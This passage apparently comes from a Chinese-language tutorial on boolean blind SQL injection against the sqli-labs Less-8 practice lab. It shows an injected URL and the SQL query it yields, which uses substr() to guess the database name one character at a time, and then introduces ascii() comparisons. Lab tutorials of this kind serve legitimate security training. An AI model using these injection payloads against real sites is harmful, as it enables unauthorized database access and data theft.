 下面以截取第一位为例：

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20substr(database(),1,1)=%27s%27%23
SQL:
SELECT * FROM users WHERE id='1' and substr(database(),1,1)='s'#' LIMIT 0,1;
;
```

网站的反应为：

![](image/10.jpg)

但是这样一个一个的尝试太麻烦了，耗时也多。

所以通过将猜测的内容转换为ASCII码，然后使用`ascii()`函数。4位ASCII码对照表见下：

![](image/ascii-1714286395109.png)
